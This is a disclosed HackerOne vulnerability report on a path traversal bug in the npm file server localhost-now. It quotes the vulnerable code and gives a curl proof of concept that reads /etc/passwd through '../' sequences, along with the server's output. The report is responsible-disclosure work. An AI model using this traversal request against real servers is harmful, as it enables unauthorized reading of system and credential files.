 # [localhost-now] Path Traversal allows to read content of arbitrary file

## Report Details
- **Report ID**: 312889
- **URL**: https://hackerone.com/reports/312889
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-02-06T14:08:47.103Z
- **Disclosed**: 2018-02-26T21:22:37.083Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

There is Path Traversal in localhost-now module.
It allows to read content of arbitrary files on the remote server.

## Module

**localhost-now**

This is a general file server made by nodejs. It will be easy for you to access the files on the server through the browser.

https://www.npmjs.com/package/localhost-now

version: 1.0.1

Stats
0 downloads in the last day
24 downloads in the last week
89 downloads in the last month

~1100 estimated downloads per year


## Description

Lack of file path sanitization causes that any file on the server might be read by malicious user:

```javascript
// node_modules/localhost-now/lib/app.js, line 10:
    var url = req.url;

    if (url.indexOf('?') != -1) {
        url = url.split('?')[0];
    }

    var file = url === "/" ? "/index.html" : url;

    fs.readFile(path.normalize(process.cwd()) + file, function(err, data) {

```
Path is read directly from request and used to read content of file without checking against Path Traversal attempt.

## Steps To Reproduce:


- install ```localhost-now```:

```
$ npm install localhost-now
```

- run ```localhost-now``` in direcotry of your choice:

```
me:~/playground/hackerone/Node$ ./node_modules/localhost-now/bin/localhost 
Web Server started on localhost:1337
```

- execute following ```curl``` command (adjust number of ../ to reflect your system):

```
$ curl -v --path-as-is http://127.0.0.1:8080/../../../../../../etc/passwd
```

- see result:

```
*   Trying ::1...
* Connected to localhost (::1) port 1337 (#0)
> GET /../../../../../etc/passwd HTTP/1.1
> Host: localhost:1337
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< content-type: text/
< Date: Tue, 06 Feb 2018 14:06:55 GMT
< Connection: keep-alive
< Content-Length: 2615
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
(...)
```

## Supporting Material/References:


- Ubuntu 16.04 LTS
- Chromium 66.0.3333.0 (Developer Build) (64-bit) 
- Node.js version: v8.9.4 LTS
- npm version: 5.6.0
- curl 7.47.0


Please feel free to invite module maintainer to this report. I haven't contacted maintainer as I want to keep the process of fixing and disclosing bug consistent through HackerOne platform only.

I hope my report will help to keep Node.js ecosystem and its users safe in the future.

Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability might be used to read content of any file on the server where module is run

## Attachments
No attachments
